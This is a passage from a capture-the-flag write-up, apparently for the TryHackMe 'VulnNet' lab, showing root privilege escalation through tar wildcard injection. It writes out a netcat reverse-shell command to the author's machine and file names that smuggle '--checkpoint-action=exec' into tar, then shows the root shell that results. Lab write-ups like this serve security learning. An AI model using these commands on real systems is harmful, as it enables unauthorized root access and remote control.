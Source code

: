 The script runs tar on `/home/server-management/Documents/*`. This can be used to [run commands](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/) as the user executing the script.

I created the files needed to run my reverse shell.
```bash
server-management@vulnnet:~$ cd Documents/

server-management@vulnnet:~/Documents$ echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4445 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" > shell.sh

server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh shell.sh"

server-management@vulnnet:~/Documents$ echo "" > --checkpoint=1
```


Then I launched another netcat listener on my machine and waited for the connection.
```bash
ehogue@kali:~/Kali/OnlineCTFs/TryHackMe/VulnNet$ nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.186.11 33276

whoami
root

ls /root
root.txt

cat /root/root.txt
ROOT FLAG
```